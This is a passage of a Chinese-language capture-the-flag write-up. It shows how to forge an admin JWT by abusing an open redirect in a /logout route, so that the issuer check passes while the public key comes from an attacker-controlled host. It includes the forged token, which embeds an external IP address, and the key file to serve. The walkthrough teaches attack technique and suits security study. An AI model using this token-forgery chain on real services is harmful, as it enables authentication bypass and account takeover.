 ```python
    return pubkey_url
```

那么我们这里就需要既能通过`valid_issuer_domain`的校验让其认为是来自`localhost:8080`，又让`pubkey_url`从我们给出的HOST获取公钥，来完成JWT的伪造。

```python
@app.route("/logout")
def logout():
    session.clear()
    redirect_uri = request.args.get('redirect', url_for('home'))
    return redirect(redirect_uri)
```

而`/logout`的路由处提供来redirect的功能，使我们可以构造`http://localhost:8080/logout?redirect=http://Host:Port`,让`valid_issuer_domain`会获取到`localhost:8080`而`pubkey_url`会去`http://Host:Port`拿公钥。

用自己的一对公私钥来生成一个JWT

![图 5](https://s2.loli.net/2022/10/02/Ttd6u4MYj2vEyNS.png)  

```text
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImlzc3VlciI6Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MC9sb2dvdXQ_cmVkaXJlY3Q9aHR0cDovLzM5LjEwOC4yNTMuMTA1Ojc3NzcifQ.eyJ1c2VyIjoiYWRtaW4ifQ.QZBreri9WxDMyshYnTRPkz15feQO21eVFw5Dm6Ipo-l8LNrffErnmQVVxxuo4B6ycHVDbRRIaijwPDqGuWxfUNdWKOQqy3ceL9eC_ZPUWe96O71N51CkZBovLG7cLtjWy1zapZS5nFYplottVgkR2pAGlv9oeKmWOt_5PZvKggyDK4KEDZIo29qYCt9LnxWqAaxYm8g6bUA-4j_OkjtseM64uGfrGwDIh_x-od1-Mhk7GjP92kbQX-cgT6u_d3E-ZrRGRVVA4FDzLf6HcSY9-wNAF9ahldETUUAjdq5uX7IWVSamfOqVSotI4-cSkYytPgKWlFpc_k19vCeX-sg9pA
```

在服务器上放这个json文件

```json
{
    "keys": [
        {
            "alg": "RS256",
            "x5c": [
                "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAu1SU1LfVLPHCozMxH2Mo\n4lgOEePzNm0tRgeLezV6ffAt0gunVTLw7onLRnrq0/IzW7yWR7QkrmBL7jTKEn5u\n+qKhbwKfBstIs+bMY2Zkp18gnTxKLxoS2tFczGkPLPgizskuemMghRniWaoLcyeh\nkd3qqGElvW/VDL5AaWTg0nLVkjRo9z+40RQzuVaE8AkAFmxZzow3x+VJYKdjykkJ\n0iT9wCS0DRTXu269V264Vf/3jvredZiKRkgwlL9xNAwxXFg0x/XFw005UWVRIkdg\ncKWTjpBP2dPwVZ4WWC+9aGVd+Gyn1o0CLelf4rEjGoXbAAEgAqeGUxrcIlbjXfbc\nmwIDAQAB"
            ]
        }
    ]
}
```

带token请求`/api/flag` -> 通过`valid_issuer_domain`的域名校验和Token的公钥校验 -> 拿到flag

![图 6](https://s2.loli.net/2022/10/02/qfheQzRv7rjusWl.png)  

## Crab Commodities
